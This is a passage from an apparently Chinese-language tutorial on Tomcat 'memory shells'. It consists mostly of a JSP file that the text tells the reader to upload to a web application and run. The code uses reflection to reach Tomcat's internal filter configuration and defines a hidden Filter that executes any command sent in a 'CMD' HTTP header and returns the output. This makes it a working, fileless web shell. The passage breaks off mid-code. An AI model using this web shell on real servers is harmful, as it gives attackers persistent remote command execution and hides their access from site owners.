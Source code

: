 ## Filter 型内存马实现

根据如上，我们编写如下 jsp 内存马，将其上传至 Web 应用，并访问执行。

```java
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.PrintWriter" %>
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>

<%
    final String filterName = "F!lter"+System.nanoTime()%100000000L;
    org.apache.catalina.core.StandardContext standardContext = null;

    ServletContext servletContext = request.getSession().getServletContext();

    Field contextField = servletContext.getClass().getDeclaredField("context");
    contextField.setAccessible(true);

    org.apache.catalina.core.ApplicationContext applicationContext = (org.apache.catalina.core.ApplicationContext) contextField.get(servletContext);
    contextField = applicationContext.getClass().getDeclaredField("context");
    contextField.setAccessible(true);

    standardContext = (org.apache.catalina.core.StandardContext) contextField.get(applicationContext);

    Field filterConfigsfield = standardContext.getClass().getDeclaredField("filterConfigs");
    filterConfigsfield.setAccessible(true);
    Map map = (Map) filterConfigsfield.get(standardContext);

    if (map.get(filterName) == null){
        Filter filter = new Filter() {
            @Override
            public void init(FilterConfig filterConfig) throws ServletException {
            }

            @Override
            public void doFilter(ServletRequest req, ServletResponse resp, FilterChain chain) throws IOException, ServletException {
                HttpServletRequest request = (HttpServletRequest)req;
                HttpServletResponse response = (HttpServletResponse)resp;
                String cmd = request.getHeader("CMD");
                String osTyp;
                if (cmd != null && !cmd.isEmpty()) {
                    boolean isLinux = true;
                    osTyp = System.getProperty("os.name");
                    if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                        isLinux = false;
                    }

                    String[] cmds = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
                    InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                    Scanner s = (new Scanner(in)).useDelimiter("\\\\a");
                    String output = s.hasNext() ? s.next() : "";
                    PrintWriter out = response.getWriter();
                    out.println(output);
                    out.flush();
                    out.close();
```